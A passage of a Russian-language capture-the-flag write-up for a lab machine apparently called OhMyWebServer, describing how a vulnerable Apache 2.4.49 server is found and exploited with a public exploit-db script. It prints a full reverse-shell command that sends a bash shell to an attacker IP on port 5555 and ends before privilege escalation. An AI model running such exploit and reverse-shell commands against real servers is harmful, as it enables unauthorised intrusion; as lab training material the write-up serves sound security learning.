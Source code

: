 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать bash\_reverse\_shell и получить оболочку нашей машины&#x20;

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

&#x20;и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать root'a
